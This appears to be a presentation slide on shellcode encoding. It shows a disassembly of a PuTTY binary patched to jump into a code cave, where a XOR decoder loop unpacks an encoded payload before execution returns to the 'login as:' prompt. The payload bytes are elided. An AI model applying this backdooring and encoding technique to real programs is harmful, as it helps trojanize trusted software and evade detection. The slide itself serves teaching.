

SHELLCODE ENCODING
DECODER
0045909B | 68 FC834D00 | push putty.4D83FC | 4D83FC:"login as: "
0045909B | E9 36A20900 | jmp 0x004F32D6
004590A0 | E8 0B4AFEFF | call 0x0043DAB0
004590A5 | 83C4 04     | add esp,4
004F32D6 | 60            | pushad
004F32D7 | 9C            | pushfd
004F32D8 | BB F0324F00   | mov ebx, 0x004F32F0
004F32DD | 8033 2E       | xor byte ptr ds:[ebx],0x2E
004F32E0 | 43            | inc ebx
004F32E1 | 81FB 33344F00 | cmp ebx, 0x004F3433
004F32E7 | 7E F4         | jle 0x004F32DD
004F32E9 | EB 05         | jmp 0x004F32F0
…
004F32F0 | D2C6
…
004F3433 | BE
004F3438 | 81C4 04020000 | add esp, 0x204
004F343E | 9D            | popfd
004F343F | 61            | popad
004F3440 | 68 FC834D00   | push 0x004D83FC | 4D83FC:"login as: "
004F3445 | E9 725CF6FF   | jmp 0x004590A0